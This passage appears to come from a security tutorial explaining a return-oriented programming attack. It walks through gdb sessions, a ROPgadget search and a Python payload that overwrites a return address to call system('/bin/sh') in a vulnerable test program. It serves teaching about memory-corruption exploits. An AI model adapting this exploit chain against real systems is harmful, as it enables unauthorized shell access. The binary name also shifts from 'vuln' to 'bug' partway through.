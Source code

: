 The following figure demonstrates the mechanism of an RoP attack. We first change the return address to some gaddet code that allow us to assign the parameter value to "/bin/sh". According to the calling convention of x86_64, the first parameter is saved in the rdi register. Therefore, some instructions containing "pop rdi" might be useful as our gadget. In our example, after "pop rdi", the "ret" instruction will use the data on top of the stack as the return address. We set the address to the function entry of system().

![image](./figures/chapt1-rop.png)

```shell
clang -fno-stack-protector vuln.c -o vuln
gdb bug
(gdb) break *validation
Breakpoint 1 at 0x401150
(gdb) r
Starting program: bug 
Input your key:
Breakpoint 1, 0x0000000000401150 in validation ()
(gdb) print system
$1 = {<text variable, no debug info>} 0x7ffff7e18410 <__libc_system>
(gdb) find 0x7ffff7e18410, +2000000, "/bin/sh"
0x7ffff7f7a5aa
```
```shell
ldd bug
        linux-vdso.so.1 (0x00007ffff7fcd000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dc3000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcf000)
```

```shell
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret" | grep rdi
0x00000000000276e9 : pop rdi ; pop rbp ; ret
0x0000000000026b72 : pop rdi ; ret
0x00000000000e926d : pop rdi ; ret 0xfff3
```

```python
system_addr = 0x7ffff7e18410
binsh_addr = 0x7ffff7f7a5aa

libc = ELF('libc.so.6')
ret_offset = 0x0000000000026b72 - libc.symbols['system']
ret_addr = system_addr + ret_offset

payload = "A" * 88 + p64(ret_addr) + p64(binsh_addr) + p64(system_addr) 
```
